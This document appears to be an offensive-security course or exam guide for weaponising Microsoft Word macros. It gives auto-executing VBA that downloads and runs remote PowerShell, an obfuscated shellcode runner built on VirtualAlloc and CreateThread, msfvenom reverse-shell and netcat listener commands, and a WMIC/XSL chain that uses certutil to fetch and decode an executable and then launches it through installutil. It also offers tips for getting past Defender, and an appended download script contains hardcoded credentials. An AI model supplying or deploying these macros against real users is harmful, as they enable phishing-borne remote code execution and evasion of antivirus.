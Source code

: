 # General info
Open this file with Markdown reader or with CyberChief render https://cyberchef.io/#recipe=Render_Markdown()&input=IyBUaXRsZQoKUmVuZGVyIG9mIGBjb2RlYA

Do not forget to put it into Document and not into Template.  
First, create and save the document as .docm (or .doc, depending on the situation) 
Once .docm file created, go to tab View => Macros => View Macros => "Macros in: XXX (document)" => put foo in Macro name => Create.  

# IMPORTANT : usual mistakes, please always check that before asking me  
1. Don't use Meterpreter directly; always keep simple payload, reverse TCP shell (so `msfvenom -p windows/shell_reverse_tcp`)
2. Don't use exotic ports; stick to 80, 443 and eventually 53/8080 (`nc -lvnp 443`)
3. Put the macro in the DOCUMENT, not in the template (because it will be only on your dev box)
4. Always try the macro first on the dev box (not your computer since you might have Word 64 bits), first with Defender disabled, and once it works, with Defender enabled (the AV version is the same with all boxes)
5. All the following payload are confirmed to work on all active sets (AV is the same and is not updated); if it doesn't work, it's not the payload I provide.

Guide written by Tamarisk.

# 1. The simplest :

https://raw.githubusercontent.com/S3cur3Th1sSh1t/OffensiveVBA/main/src/Reverse-Shell.vba

Put your VPN IP, port 80/443/8080, and run `nc -lvnp 8080` listener.


# 2. Basic Powershell command - Powershell

```vb
Sub MyMacro()
    Dim strArg As String
    strArg = "powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.X.Y/rev.ps1')"
    Shell strArg, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen() 
    MyMacro
End Sub
```

# 3. Simple way - BadAssMacro + msfvenom

Important : do not run the macro on your own computer (you probably have Word 64 bits), this exploit is for 32 bits (both RDP dev box and exam machines have 32 bits Word, otherwise you have "type mismatch error")

BadAssMacro (https://github.com/Inf0secRabbit/BadAssMacros/releases/tag/v1.0), binary backup is present in the folder.  
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f raw -o shellcode.raw`  
`.\BadAssMacrosx86.exe -i shellcode.raw -s indirect -p no -w doc -o outvba.txt`

Insert into your document the content of the file outvba.txt

# 4. Obfuscated VBA with recepe - VBA + msfvenom
This comes from PDF after putting pieces together (exercice 6.8.3.1, look for the word "Almond" with Ctrl+F)

Generate payload with `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 -f vbapplication`, then insert into following VBA runner

```vb
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Function Pears(Beets)
 Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
 Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
 Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
 Do
 Oatmilk = Oatmilk + Pears(Strawberries(Milk))
 Milk = Almonds(Milk)
 Loop While Len(Milk) > 0
 Nuts = Oatmilk
End Function

Function MyMacro()
 Dim Apples As String
 Dim Water As String
 Dim buf As Variant
 Dim addr As LongPtr
 Dim counter As Long
 Dim data As Long
 Dim res As Long

 buf = Array(252, ............................. 203)
 
 addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

 For counter = LBound(buf) To UBound(buf)
  data = buf(counter)
  res = RtlMoveMemory(addr + counter, data, 1)
  Next counter

 res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub AutoOpen()
 MyMacro
End Sub

Sub Document_Open()
 MyMacro
End Sub
```

# 5. WMIC + XSL
Works for sure on DenkiAir

```vb
Sub AutoOpen()
    Shell "wmic process get brief /format:""http://<Kali_IP_web>/payload.xsl""", vbHide 
End Sub
```

If that doesn't work, use this project: https://gist.github.com/badkatro/8e5b764e7bfc1158e053 (backup below)

Create your EXE payload and encode it using certutil
The payload.xsl file should contain:
```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace%22%3E

<output method="text"/>
  <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
      var ob = new ActiveXObject("WScript.Shell");
      ob.Run("certutil.exe -urlcache -f http://<Kali_IP_web>/met.enc C:\Users\Public\met.enc", 0, true);
      ob.Run("certutil.exe -decode C:\Users\Public\met.enc C:\Users\Public\met.exe", 0, true);
      ob.Run("C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\Public\met.exe", 0, true);
    ]]>
  </ms:script>
</stylesheet>
```


### Backup of the Badkatro project (in case of deletion), that also works
````Sub DownloadFile()

Dim myURL As String
myURL = "https://github.com/badkatro/AssignDocuments/blob/master/scripts/Main.vba"

'Dim WinHttpReq As Object
Dim WinHttpReq As XMLHTTP
'Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
Set WinHttpReq = New XMLHTTP

WinHttpReq.Open "GET", myURL, False, "badkatro", "Kocutel924"
WinHttpReq.send

Do While WinHttpReq.readyState <> 4
    DoEvents
Loop

myURL = WinHttpReq.responseBody

If WinHttpReq.Status = 200 Then
    
    Dim fso As New Scripting.FileSystemObject
    
    Dim ostream As TextStream
    
    Set ostream = fso.CreateTextFile("D:\Main.bas", True)
    'Set oStream = CreateObject("ADODB.Stream")
    
    'oStream.Open
    ostream.write (WinHttpReq.responseText)
    'ostream.Type = 1
    'ostream.write WinHttpReq.responseText
    'ostream.SaveToFile "D:\Main.bas", 2 ' 1 = no overwrite, 2 = overwrite
    ostream.Close
End If

Set WinHttpReq = Nothing

End Sub```
